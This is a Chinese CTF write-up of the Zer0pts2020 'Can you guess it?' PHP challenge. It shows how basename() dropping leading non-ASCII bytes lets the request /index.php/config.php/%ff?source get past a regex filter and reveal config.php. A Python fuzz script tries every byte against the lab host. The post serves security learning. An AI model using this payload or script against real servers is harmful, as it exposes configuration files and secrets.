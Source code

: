 ```yaml
---

title: 日常练习34——关于$ _SERVER['PH _SELF'])和basename函数

date: 2021-05-14 23:02:02

tags: 练习

categories: test84

---
```

这道题是一个关于一个php函数和新的变量属性的新知识点，积累一下。  

# [Zer0pts2020]Can you guess it?

打开题目，发现让我们猜东西，猜到才能给flag，并且提供了源码。我们先审计源码：  

	<?php
	include 'config.php'; // FLAG is defined in config.php
	
	if (preg_match('/config\.php\/*$/i', $_SERVER['PHP_SELF'])) {
	  exit("I don't know what you are thinking, but I won't let you read it :)");
	}
	
	if (isset($_GET['source'])) {
	  highlight_file(basename($_SERVER['PHP_SELF']));
	  exit();
	}
	
	$secret = bin2hex(random_bytes(64));
	if (isset($_POST['guess'])) {
	  $guess = (string) $_POST['guess'];
	  if (hash_equals($secret, $guess)) {
    $message = 'Congratulations! The flag is: ' . FLAG;
	} else {
    $message = 'Wrong.';
	  }
	}  

可以看到让我猜东西的代码如下：  

	$secret = bin2hex(random_bytes(64));
	if (isset($_POST['guess'])) {
	  $guess = (string) $_POST['guess'];
	  if (hash_equals($secret, $guess)) {
    $message = 'Congratulations! The flag is: ' . FLAG;
	} else {
    $message = 'Wrong.';
	  }
	}  

这里random_bytes( int $length)函数是生成指定大小的随机字符串（单位：字节），然后bin2hex()函数将生成的ASCII字符串转换为16进制，它让我们猜的就是这一串十六进制字符。且对比时采用了php 可防止时序攻击的字符串比较函数 hash _equals()。也就是说明，我们不可能在猜字符串这里下手脚了，猜是猜不到的。  

那么我们就重点放在前面的代码：  

	include 'config.php'; // FLAG is defined in config.php
	
	if (preg_match('/config\.php\/*$/i', $_SERVER['PHP_SELF'])) {
	  exit("I don't know what you are thinking, but I won't let you read it :)");
	}
	
	if (isset($_GET['source'])) {
	  highlight_file(basename($_SERVER['PHP_SELF']));
	  exit();
	}  

这段代码中有两个之前没见过的重要信息：  

第一个是属性$ _SERVER['PHP _SELF']，这个表示当前 php 文件相对于网站根目录的位置地址，与 document root 相关，如下图的测试：  

[![](https://pic.imgdb.cn/item/60a681e26ae4f77d35fcf609.png)](https://pic.imgdb.cn/item/60a681e26ae4f77d35fcf609.png)  

第二个就是basename()函数，这个函数会返回路径中的文件名部分假如路径是/index.php/config.php，浏览器的解析结果都是index.php，而basename会返回config.php，就算后面跟上多余的字符也会返回文件名部分，比如test.php/?source仍会返回文件名test.php。  

而basename()函数存在一个问题，那就是他会去掉文件名开头的非ASCII值，比如下面两个例子：  

	var_dump(basename("xffconfig.php")); // => config.php
	var_dump(basename("config.php/xff")); // => config.php

在代码的一开头就已经告诉我们了flag在config.php里，如果我们想要读取到这个文件，就要get上传参数source，并且我们的路径里的文件名必须是config.php。

	if (isset($_GET['source'])) {
	  highlight_file(basename($_SERVER['PHP_SELF']));
	  exit();
	}  

但是一开始就有一个正则匹配：  

	if (preg_match('/config\.php\/*$/i', $_SERVER['PHP_SELF'])) {
	  exit("I don't know what you are thinking, but I won't let you read it :)");
	}

我们观察这个匹配，/config\.php\/*$/i表示匹配的是字符串尾部，对config.php这个字符进行匹配，匹配的字符串是文件路径，那也就是说，我们不能直接上传payload的文件路径为：
	
	/index.php/config.php/?source  

因为这样会被直接过滤，那么我们可以利用basename()函数会去掉文件名开头的非ASCII值这一漏洞，这样构造：  

	/index.php/config.php/%ff?source  

这里的%ff就是非ASCII值，这样构造的payload既满足了有变量source上传，能够执行读取文件的代码，又能成功返回正确的文件名config.php(因为%ff会被去掉，?source不会影响返回文件名)，最重要的是绕过了正则匹配，因为它会匹配的是**%ff?source**这一段，从而绕过了对config.php的匹配。  

[![](https://pic.imgdb.cn/item/60a6927d6ae4f77d35a5304c.png)](https://pic.imgdb.cn/item/60a6927d6ae4f77d35a5304c.png)  

得到config.php的内容。  

下面附上关于fuzz脚本，用来测试那些字符不会被过滤，同时构造满足条件的payload：  

	import requests
	import re
	
	for i in range(0,255):
    url ='http://cc5b962c-30fd-4564-a182-23f81878af5a.node3.buuoj.cn/index.php/config.php/{}?source'.format(chr(i))
    print(url)
    r = requests.get(url)
    flag = re.findall("flag\{.*?\}", r.text)
    if flag:
        print(flag)
        break
  
# 小结  

这道题就是两个关于php的新知识，比较重要的就是basename()函数的一些问题，当作积累就好了。  

附上basename()函数的漏洞官网：  

[basename()函数](https://bugs.php.net/bug.php?id=62119)